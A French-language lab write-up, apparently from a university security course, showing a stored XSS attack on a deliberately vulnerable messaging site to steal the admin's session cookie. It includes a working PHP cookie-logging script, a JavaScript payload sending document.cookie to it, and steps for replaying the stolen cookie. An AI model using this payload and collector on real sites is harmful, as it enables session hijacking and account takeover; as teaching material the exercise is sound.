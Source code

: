 # Vulnérabilité

Cet article illuse une attaque XSS sur le site web vulnérable sti.

Objectif : Voler le cookie de l'administrateur

Méthode : Envoyer un  message contenant un script xss dans le sujet. Celui-ci va faire une requête GET avec la valeur des cookies  renvoyant vers un site web malveillant qui va récupérer le cookie



## Infrastructure

- Fichier `steal.php` pour voler les cookies

```php
<?php
$COOKIE_NAME = "cookie";
if(isset($_GET[$COOKIE_NAME])){
        $cookie = $_GET[$COOKIE_NAME];
        $steal = fopen("log.txt", "a");
        fwrite($steal, $cookie ."\n");
        fclose($steal);
}
?>
```



- Script javascript malveillant

```javascript
<script type="text/javascript">
  document.location = "http://localhost/sti/steal.php?cookie=" + document.cookie ;
</script>
```



## Attaque

- Envoyer le message à notre cible, ici l'utilisateur `admin`

![xss-message](C:\Users\super\switchdrive2\HEIG\s5\sti\pentesting-sti\xss-cookie\xss-message.PNG)

L'utilisateur `admin`losqu'il clique sur sa boite de réception va déclencher l' effet du script malveillant, il sera redirigé vers le site malveillant.

L'attaquant n'a plus qu'a afficher son fichier log.txt pour obtenir le cookie de session

![log-cookie](C:\Users\super\switchdrive2\HEIG\s5\sti\pentesting-sti\xss-cookie\log-cookie.PNG)

## Vérification 

On peut ensuite remplacer notre cookie de session par la valeur de celui récupéré dans les logs.

![change-cookie](C:\Users\super\switchdrive2\HEIG\s5\sti\pentesting-sti\xss-cookie\change-cookie.PNG)

En constate en rafraichissant la page que l'onglet Administration est apparue

![result](C:\Users\super\switchdrive2\HEIG\s5\sti\pentesting-sti\xss-cookie\result.PNG)

## Sources 

https://github.com/kensworth/cookie-stealer

